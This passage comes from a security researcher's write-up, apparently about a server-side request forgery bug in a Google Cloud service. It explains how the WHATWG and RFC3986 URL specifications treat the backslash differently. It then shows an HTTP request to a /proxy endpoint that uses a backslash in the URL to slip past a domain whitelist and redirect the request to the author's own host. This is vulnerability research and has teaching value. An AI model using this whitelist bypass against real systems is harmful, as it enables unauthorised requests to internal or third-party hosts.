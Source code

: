 Speaking of warning signs, this is also one of them. Parsing a URL is hard.

Now the question is, can we trick the URL parser into thinking that the hostname is a whitelisted domain while making it send the request to a different host, like to our server? If both the whitelist validation logic and the request sending logic are parsing the attacker-provided URL separately, we might be able to exploit some slight differences in them.

After playing around with the `/proxy` endpoint by sending multiple requests trying to break the whitelist, I tried using the *backslash-trick* from my previous writeup titled ["The unexpected Google wide domain check bypass"](/google/2020/03/08/the-unexpected-google-wide-domain-check-bypass/).

In short, the *backslash-trick* relies on exploiting a minor difference between two "URL" specifications: the [WHATWG URL Standard](https://url.spec.whatwg.org/#url-parsing), and [RFC3986](https://datatracker.ietf.org/doc/html/rfc3986#appendix-B). RFC3986 is a generic, multi-purpose specification for the syntax of *Uniform Resource Identifiers*, while the WHATWG URL Standard is specifically aimed at the Web, and at URLs (which are a subset of URIs). Modern browsers implement the WHATWG URL Standard.

Both of them describe a way of parsing URI/URLs, with one slight difference. The WHATWG specification describes [one extra character](https://url.spec.whatwg.org/#authority-state), the `\`, which behaves just like `/`: ends the hostname & authority and starts the path of the URL.

![The two specifications parsing the same URL differently](/assets/posts/2021-12-30-fixing-the-unfixable-story-of-a-google-cloud-ssrf/spec_difference.jpg)

So I tried using the *backslash-trick* on `cxl-services` as well, hoping that the whitelist validator and the actual request sending logic might parse the same URL differently:

request:
```
GET /proxy?url=https://sfmnev.vps.xdavidhu.me\@jobs.googleapis.com/ HTTP/1.1
Host: cxl-services.appspot.com

```
